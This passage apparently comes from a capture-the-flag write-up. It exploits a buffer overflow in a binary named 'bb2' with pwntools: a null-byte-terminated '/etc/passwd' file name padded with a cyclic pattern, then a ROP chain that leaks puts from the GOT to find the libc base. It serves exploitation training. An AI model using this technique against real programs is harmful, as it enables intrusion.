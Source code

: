 ```python  
io.sendlineafter("file to copy", b"/etc/passwd\x00" + cyclic(100))  
io.sendlineafter("target file", b"/tmp/abcd")

io.interactive()  
```

**Note**: the above was generated by doing `pwn template bb2 > xpl.py`  
**Note**: the 2nd `gdbscript` breakpoint is near the return of `main`

If you run this by doing `python3 xpl.py GDB`, you'll get a GDB screen
(assuming you have `tmux` installed) on the bottom. You can type in `c` or
`continue` to continue to near the return breakpoint. Stepping through the
instructions, you'll see that the `rip` value is part of the `cyclic()`
string.

You have full control over the instruction pointer.

# Exploitation - getting a shell  
How are you supposed to get a shell with just an instruction pointer?

We're going to use a ROP chain. `pwntools` is pretty neat in that it makes ROP
chains really easy to make. It's worth knowing how it works but after a while,
you get bored of dealing with the minutae and you just want things to work.

We were given `libc-2.28.so` which probably means we want to leak glibc.

**Note**: the binary itself has PIE (position independent executable) disabled
which means that the addresses of the binary are always going to be the same.
However, any libc usually has PIE _enabled_. We don't know the address of
anything because it's always randomized.

We can leak libc by doing something like this:

```python  
...  
rc = ROP(exe)  
rc.puts(exe.sym.got["puts"])  
...  
```

The above snippet basically creates some binary string that runs `puts(puts)`
which means "give me the address of the `puts` function".

This will tell you the address of `puts` and you can use a libc database
(e.g., https://libc.blukat.me/?q=puts%3A910&l=libc6_2.28-10_amd64) to
determine where `puts` is relative to the base of libc.

```python  
...  
resp = io.recvuntil("file to copy")  
puts_leak = u64(resp.split(b"\n")[2].ljust(8, b"\x00"))  
log.success("puts @ {}".format(hex(puts_leak)))  
libc.address = puts_leak - 0x071910  
log.success("libc base @ {}".format(hex(libc.address)))  
...  
```
